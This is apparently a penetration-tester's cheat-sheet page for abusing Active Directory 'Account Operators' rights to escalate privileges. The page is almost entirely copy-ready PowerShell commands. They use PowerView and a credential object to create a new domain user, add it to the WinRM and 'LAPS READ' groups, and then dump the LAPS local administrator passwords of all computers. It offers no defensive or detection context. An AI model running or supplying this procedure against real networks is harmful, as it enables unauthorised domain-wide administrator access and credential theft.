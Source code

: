 ```yaml
---
title: "Account Operators"
date: 2024-7-23
tags: ["Account Operators", "active driectory", "ad", "Windows", "LAPS", "privesc"]
---
```


### Privesc #1: Create a new user account and add it to LAPS (Local Administrator Password Solution) group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Create new user password object

<div>

```console
$new_user_password = ConvertTo-SecureString '<NEW_USER_PASSWORD>' -AsPlainText -Force
```

</div>

#### 4. Create new user account

<div>

```console
# Create a new user
New-AdUser <NEW_USER> -enabled $true -accountpassword $new_user_password -Credential $cred
```

```console
# Grant new user privilege (e.g. WinRM)
Add-DomainGroupMember -Identity WinRM -Members <NEW_USER> -Credential $cred
```

</div>

#### 5. Add new user to LAPS group

<div>

```console
Add-DomainGroupMember -Identity 'LAPS READ' -Members <NEW_USER> -Credential $cred
```

</div>

#### 6. Read LAPS password

<div>

```console
# Login as new user
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd
```

</div>

{{< /tabcontent >}}

<br>